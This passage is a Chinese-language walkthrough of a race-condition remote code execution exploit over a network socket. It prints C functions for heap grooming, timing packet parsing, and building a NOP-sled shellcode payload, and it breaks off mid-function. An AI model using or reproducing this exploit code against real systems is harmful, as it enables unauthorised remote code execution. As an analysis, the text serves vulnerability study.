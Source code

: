 这个函数用于通过socket发送一个数据包。具体步骤如下：  
  
定义一个缓冲区，并清零。  
  
将数据包类型放入缓冲区的第一个字节。  
  
将数据复制到缓冲区中。  
  
通过socket发送缓冲区的数据。  
  
  
5.3 准备堆  
```
void prepare_heap (int sock)
{
  unsigned char buf[MAX_PACKET_SIZE];
  memset(buf, 0x41, sizeof(buf)); // 填充缓冲区，模拟堆布局
  send_packet(sock, 0, buf, sizeof(buf)); // 发送填充数据包
}
```  
  
这个函数的作用是通过发送大量填充数据包来准备堆布局。代码中的实现通过将缓冲区填充为特定字符（0x41）并发送数据包来达到这个目的。这有助于在目标系统上触发特定的内存布局，以便后续的竞态条件利用能够成功。  
  
  
5.4 测量数据包解析时间  
```
void time_final_packet (int sock, double *parsing_time)
{
  struct timespec start, end;
  unsigned char buf[256];
  memset(buf, 0, sizeof(buf));


  clock_gettime(CLOCK_MONOTONIC, &start); // 记录开始时间
  send_packet(sock, 1, buf, sizeof(buf)); // 发送一个小数据包
  recv(sock, buf, sizeof(buf), 0); // 接收服务器的响应
  clock_gettime(CLOCK_MONOTONIC, &end); // 记录结束时间


  *parsing_time = (end.tv_sec - start.tv_sec) + (end.tv_nsec - start.tv_nsec) / 1000000000.0; // 计算解析时间
}
```  
  
这个函数用于测量最后一个数据包的解析时间。通过记录发送和接收数据包的时间差，确定数据包的解析时间。这对于竞态条件利用非常关键，因为攻击者需要精确控制时间来触发漏洞。  
  
  
5.5 尝试利用竞态条件详细分析  
  
这个函数 attempt_race_condition 试图利用竞态条件来触发漏洞，实现远程代码执行。下面是对该函数的详细分析：  
```


int attempt_race_condition (int sock, double parsing_time, uint64_t glibc_base)
{
  struct timespec req, rem;
  unsigned char payload[256];


  // 创建包含shellcode的payload
  memset(payload, 0x90, sizeof(payload)); // 填充NOP指令
  memcpy(payload + sizeof(payload) - sizeof(shellcode), shellcode, sizeof(shellcode)); // 插入shellcode


  req.tv_sec = (time_t)parsing_time;
  req.tv_nsec = (parsing_time - req.tv_sec) * 1000000000;


```